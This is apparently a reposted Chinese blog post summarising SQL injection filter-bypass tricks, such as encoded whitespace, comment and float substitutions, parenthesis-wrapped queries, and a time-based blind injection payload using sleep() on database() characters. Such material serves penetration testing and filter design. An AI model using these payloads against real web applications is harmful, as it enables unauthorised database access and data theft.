 ```yaml
---
layout: post
category: curleyg-code-hack
title: SQL注入绕过技术总结
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: SQL注入绕过技术总结
lock: need
---
```


# SQL注入绕过技术总结

转载请注明出处：https://blog.csdn.net/l1028386804/article/details/85869703

## 绕过空格（注释符/* */，%a0） 

两个空格代替一个空格，用Tab代替空格，%a0=空格：

```sql
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
```

最基本的绕过方法，用注释替换空格：

```sql
/*  注释 */
```

![img](https://img-blog.csdnimg.cn/20190105195808456.png))

使用浮点数：

```sql
select * from users where id=8E0union select 1,2,3
select * from users where id=8.0 select 1,2,3
```

## 括号绕过空格

如果空格被过滤，括号没有被过滤，可以用括号绕过。
在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。
例如：

```sql
select(user())from dual where(1=1)and(2=2)
```

这种过滤方法常常用于time based盲注,例如：

```sql
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```

（from for属于逗号绕过下面会有）
上面的方法既没有逗号也没有空格。猜解database（）第一个字符ascii码是否为109，若是则加载延时。
